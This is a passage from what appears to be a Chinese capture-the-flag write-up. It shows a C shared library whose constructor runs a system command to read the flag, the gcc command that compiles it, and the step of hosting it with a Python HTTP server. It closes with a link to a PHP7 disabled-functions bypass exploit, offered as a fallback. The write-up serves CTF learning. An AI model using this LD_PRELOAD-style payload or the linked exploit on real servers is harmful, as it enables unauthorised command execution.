 然后服务器上面的``hack.c``文件如下：

```c
#include <stdlib.h>
#include <stdio.h>
__attribute__ ((__constructor__)) void angel (void){
    system("/readflag > /tmp/ch4ser");
}
```

使用命令``gcc --share -fPIC hack.c -o hack.so``命令来编译共享文件。在服务器目录下面开启``python -m SimpleHTTPServer 80``，并运行上述python脚本，即可看到flag。

![image-20211114141817095](image-20211114141817095.png)

> ps:每个人的目录会不定时被服务器清空







> 如果LD_PRELOAD不行可以考虑上通杀马
>
> https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php
